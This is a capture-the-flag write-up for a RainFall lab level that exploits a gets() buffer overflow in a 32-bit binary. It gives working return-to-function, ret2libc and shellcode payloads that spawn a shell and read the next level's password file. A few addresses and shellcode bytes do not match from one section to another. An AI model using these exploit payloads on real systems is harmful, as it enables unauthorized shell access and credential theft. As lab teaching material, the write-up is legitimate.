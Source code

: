 # Level 1

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

void run(void)
{
    fwrite("Good... Wait what?\n", 1, 19, stdout);
    system("/bin/sh");
}

int main(void)
{
    char buffer[64];
    gets(buffer);
}
```

Let's focus on the `main` function. It reads input using the `gets` function, which is known to be unsafe due to its potential for causing buffer overflows, as it lacks a mechanism to limit the number of bytes read. This will allow us to overflow the buffer and overwrite the return address of the `main` function.

Let's analyze the stack layout of our program:
```bash
(gdb) b *main+21 # Breaking before leave
Breakpoint 1 at 0x8048495

(gdb) r # Run the program
Starting program: /home/user/level1/level1

Breakpoint 1, 0x08048495 in main ()

(gdb) info registers # Check esp and ebp addresses
[...]
esp            0xbffff6e0       0xbffff6e0
ebp            0xbffff738       0xbffff738
[...]
```
> You will notice that we break before the `leave` instruction, this is because the `leave` instruction is equivalent to `mov %ebp, %esp` followed by `pop %ebp`. Furthermore, the stack will be at the correct size at this point, which is not always the case before the `leave` instruction. Essentially I will always try to break before the `leave` instruction of the function I am trying to overflow, it may not always be the `main` function.

By calculating the difference between `esp` and `ebp` we can see that the stack is allocated 88 bytes:
```
0xbffff738 - 0xbffff6e0 = 58 (88 in decimal)
```	

Furthermore, we can see that our buffer is located at `0x10(%esp),%eax`. Since there is 88 bytes for the stack, our buffer will therefore require 72 bytes (88 - 16) before reaching `ebp`.

Since our goal is to overflow the stack until we reach the return address of the main function, we need to add another 4 bytes to go from `ebp` to `ebp + 4` (the return address). So a total of 76 bytes (72 + 4).
> If you're struggling, you can just use a [Buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), to find the offset of the return address. However, it is recommended to understand the stack layout and how to calculate the offset yourself.

Anything written beyond those 76 bytes will be treated as an address (only the 4 next bytes) and jumped to by the `ret` instruction of the `main` function.

There are different ways to solve this challenge, we'll see three of them. First the intended way with a ret to the run function, then the ret2libc way and finally the ret2shellcode way.
> When we refer to padding, we mean the bytes we need to write before reaching the return address.

### Ret2run
So, we need to find the address of the `run` function, which spawns a shell, to jump to it:
```
(gdb) info function run
All functions matching regular expression "run":

Non-debugging symbols:
0x08048444  run
```

Let's craft our payload:
```bash
padding + address of run

"\x90"*76 + "\x08\x04\x84\x44"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x84\x44"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
Good... Wait what?
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2libc
Obviously, for this level, a ret2libc isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
Ret2Libc (Return-to-Libc) is an exploit technique that redirects the program flow to execute existing library functions.

A typical Ret2Libc exploit is constructed as follows:
```
padding + address of system + address of exit + address of "/bin/sh"

The address of exit is actually optional, but not providing it will cause the program to crash after executing the system function.
```

#### Exploit
We, therefore, need the addresses of the `system`, `exit` functions and the string `/bin/sh` in memory. These are found using GDB:

```bash
# System
(gdb) info function system
0x08048360  system
0x08048360  system@plt

# Exit
(gdb) info function exit
0xb7e5ebe0  exit
0xb7e5ec10  on_exit

# /bin/sh
(gdb) info proc mappings
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
[...]
(gdb) find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```

Alright, let's craft our payload:
```
reminder: padding + address of system + address of exit + address of "/bin/sh"

"\x90"*76 + "\x08\x04\x83\x60" + "\xb7\xe5\xeb\xe0" + "\xb7\xf8\xcc\x58"
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\x08\x04\x83\x60"[::-1] + "\xb7\xe5\xeb\xe0"[::-1] + "\xb7\xf8\xcc\x58"[:
:-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

Perfect, let's move to the other solution.

### Ret2shellcode
Yet again, for this level, a ret2shellcode isn't necessary as we can just jump to the `run` function. However, it's a good exercise to understand how it works.

#### Explanation
We opt for a shellcode designed to spawn a shell. This shellcode, taken from the [Exploit Database](https://www.exploit-db.com/exploits/41757), is compact and effective for our purpose:

`\x31\xc9\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80`

Our goal is to write this shellcode in memory or in an environment variable and jump to it, it will then be executed, which will spawn a shell. Executing our shellcode is basically the equivalent of running `system("/bin/sh")`.

#### Exploit
We can either feed our shellcode to the program, or we can put the shellcode in an environment variable. For convenience, we'll use the environment variable:
```bash
bonus0@RainFall:~$ export EXPLOIT=`python -c "print '\x90' * 200 + '\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'"`
```

We'll write and run a C program to find the address of the environment variable:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    printf("%p\n", getenv("EXPLOIT"));
    return 0;
}
```

```bash
bonus0@RainFall:/tmp$ ./a.out
0xbffff848
```
> That address will be different for you, you'll have to change it in the payload.

Alright, let's craft our payload:
```
padding + address of shellcode

"\x90"*76 + "\x08\x04\xa0\x08"[::-1]
```

Let's run it:
```bash
level1@RainFall:~$ (python -c 'print("0"*76 + "\xbf\xff\xf8\x48"[::-1])' && echo 'cat /home/user/level2/.pass') | ./level1
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

We are now level2! Let's move on to the next level.